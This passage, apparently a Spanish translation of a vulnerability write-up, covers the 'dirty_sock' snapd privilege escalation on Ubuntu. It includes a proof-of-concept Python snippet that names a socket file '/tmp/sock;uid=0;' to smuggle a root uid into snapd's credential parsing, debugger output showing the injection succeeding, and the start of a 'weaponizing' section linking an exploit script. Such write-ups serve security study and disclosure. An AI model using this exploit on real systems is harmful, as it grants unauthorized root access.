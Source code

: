 Usando un código Python simple, podemos crear un nombre de archivo que tenga la cadena "; uid = 0;" en algún lugar dentro de él, vincúlelo a ese archivo como un socket y utilícelo para iniciar una conexión de regreso a la API snapd.

Aquí hay un fragmento del exploit POC:

```python
# Setting a socket name with the payload included
sockfile = "/tmp/sock;uid=0;"

# Bind the socket
client_sock = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
client_sock.bind(sockfile)

# Connect to the snap daemon
client_sock.connect('/run/snapd.socket')

```

Dupdo

Ahora observe lo que sucede en el depurador cuando miramos de nuevo la variable remoteAddr:

```
> github.com/snapcore/snapd/daemon.ucrednetGet()
...
=>  41:		for _, token := range strings.Split(remoteAddr, ";") {
...
(dlv) print remoteAddr
"pid=5275;uid=1000;socket=/run/snapd.socket;/tmp/sock;uid=0;"

```

Ahí vamos: hemos inyectado un uid falso de 0, el usuario raíz, que estará en la última iteración y sobrescribirá el uid real. Esto nos dará acceso a las funciones protegidas de la API.

Podemos verificar esto continuando hasta el final de esa función en el depurador, y ver que uid se establece en 0. Esto se muestra en el resultado delve a continuación:

```
> github.com/snapcore/snapd/daemon.ucrednetGet()
...
=>  65:		return pid, uid, socket, err
...
(dlv) print uid
0
```

# Weaponizing

## Versión uno
[dirty_sockv1](https://github.com/initstring/dirty_sock/blob/master/dirty_sockv1.py) aprovecha la función API 'POST / v2 / create-user'. Para usar este exploit, simplemente cree una cuenta en Ubuntu SSO y cargue una clave pública SSH en su perfil. Luego, ejecute el exploit de esta manera (usando la dirección de correo electrónico que registró y la clave privada SSH asociada):
